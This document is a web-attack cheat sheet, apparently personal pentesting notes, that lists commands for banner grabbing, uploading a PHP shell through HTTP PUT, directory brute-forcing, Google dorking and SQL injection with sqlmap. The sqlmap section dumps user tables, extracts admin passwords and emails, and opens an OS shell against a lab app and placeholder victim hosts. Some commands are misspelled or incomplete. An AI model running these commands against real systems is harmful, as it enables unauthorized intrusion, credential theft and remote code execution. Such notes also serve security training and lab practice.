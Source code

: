 # Web Attacks


### Banner grabbing
```
nc -v <target> <port>
HEAD / HTTP/1.0
```

### HTTPS services
```
openssl s_client -connect <target>:<port>
HEAD / HTTP/1.0
```


### Fingerpriting with Httprint
```
httprint -P0 -h <target> -s <signature file>
```


### HTTP Verbs
```
GET, POST, HEAD, PUT, DELETE, OPTIONS
```

### Using PUT to upload shell
```
# Get the content length of the shell
wc -m shell.php
<payload content length output>

# Then using nc to upload with the PUT method
nc <target> <port>
PUT /payload.php HTTP/1.0
Content-type: text/html
Content-length: <length of payload>
```


### Directory and File Enumeration

Enumeration of files and directories can lead to many hidden resources that could contain:

- New and untested features
- Backup files
- Testing information
- Developer's notes

```
# Dirb is a great tool to use for directory/file brute forcing
dirb http://<target>

# Gobuster is another directory/file scanner written in Go
gobuster -u <target> -w <path to wordlist> -o <file to output to>
```

### Google Dorks
| Command               | Meaning                                                                                                     |
|-----------------------|-------------------------------------------------------------------------------------------------------------|
| site:                 | You can use this command to include only results on a given hostname.                                       |
| intitle:              | This command filters according to the title of a page.                                                      |
| inurl:                | Similar to intitle, but works on the URL of a resource.                                                     |
| filetype:             | This filters by using the file extension of a resource. For example .pdf or .xls.                           |
| AND, OR, &,           | You can use logical operators to combine your expressions. For example: site:example.com OR site:another.com |
| -                     | You can use this character to filter out a keyword or a command's result from the query.                    |

### SQL Injection with SQLMap

```
sqlmap -u <target> -p <paramater> [options]

# Example
sqlmap -u 'http://vicitim.site/search.php?id=2' -p id --technique=U

# Dump contents of a specific table in a database
sqlamp -u 'http://victim.site/search.php?=1' -D <database name> -T <table name> --dump

# sqlmap using cookie
sqlmap -u "URL" --cookie="PHPSESSID;SECURIRTY_LEVEL" -p 

Use the SQLMapto to get a list of databases present on the database server.
sqlmap -u "url" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs

Use the SQLMap to get a list of tables for database bWAPP.
sqlmap -u "url" --cookie "PHPSESSID=; security_level=0" -p title --dbs -D bWAPP --tables

Use the SQLMap to get the list of columns in the users table of the bWAPP database
sqlmap -u "url" --cookie "PHPSESSID=; security_level=0" -p title --dbs -D bWAPP --tables -T users --columns

SQLMap to dump password and email for admin from the users table. Press 'n' twice when prompted.
sqlmap -u "url" --cookie "PHPSESSID=; security_level=0" -p title --dbs -D bWAPP --tables -T users -C admin,password,email --dump

SQL Injection (POST/Search)

Run SQLMap with this saved file. Again take "title" as the test parameter
sqlmap -r request -p title

os shell using sqlmap --os-shell option.
sqlmap -r request -p title --os-shell
```
```




